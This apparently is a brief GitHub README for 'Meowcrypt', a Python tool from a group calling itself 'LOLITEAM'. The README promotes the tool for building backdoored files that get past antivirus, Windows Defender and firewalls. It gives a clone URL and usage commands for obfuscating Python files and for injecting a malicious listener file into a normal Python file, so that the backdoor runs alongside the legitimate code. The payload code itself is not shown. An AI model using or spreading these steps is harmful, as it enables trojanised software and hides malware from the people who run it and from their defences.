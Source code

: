 Hi, i'm MeowtonKalava to LOLITEAM
## Description:
Meowcrypt used languages python for creat file backdoor.
and not check anti-virus, windows defender, firewall
# Download Tool:

```
$ https://github.com/MeoSully/MeowtonCrypt.git

# Usage:
# encrypt a python file

python Meowcrypt.py --file=filetoencrypt.py
python Meowcrypt.py --file=filetoencrypt.py --output=output_file.py

# inject a malicious python file into a normal python file

python Meowcrypt --file=normal_file.py --backdoor-file=msf_listener.py --output=test.py


/* when you will execute the file 'test.py' the file 'file.py' will be executed in the same time with
 the file 'listen.py' with multi-threading system */

"""